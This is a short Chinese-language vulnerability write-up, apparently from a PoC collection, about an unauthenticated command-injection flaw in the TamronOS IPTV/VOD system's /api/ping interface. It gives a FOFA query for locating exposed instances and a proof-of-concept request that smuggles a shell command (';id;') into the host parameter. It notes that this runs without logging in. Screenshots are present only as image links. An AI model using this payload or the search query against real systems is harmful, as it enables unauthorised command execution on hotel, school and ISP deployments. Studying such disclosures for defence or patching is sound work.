



## TamronOS IPTV系统存在前台命令执行漏洞

## 漏洞描述

TamronOS IPTV/VOD系统是一套基于Linux内核开发的宽带运营商、酒店、学校直播点播一体解决方案，系统提供了多种客户端（Android机顶盒、电视、PC版点播、手机版点播）方便用户通过不同的设备接入。由于未对ping接口进行限制，造成了命令执行漏洞。并且可以前台命令执行

## 漏洞影响

> TamronOS IPTV 所有版本

## FOFA

> title="TamronOS IPTV系统"

## 复现

1）登录界面


2）POC如下：

```
 /api/ping?count=5&host=;id;&port=80&source=1.1.1.1&type=icmp
```





3) EXP如下：



 然后利用POC去前台(未登录状态)尝试进行命令执行：


上图为没有cookie的未登录状态进行命令执行。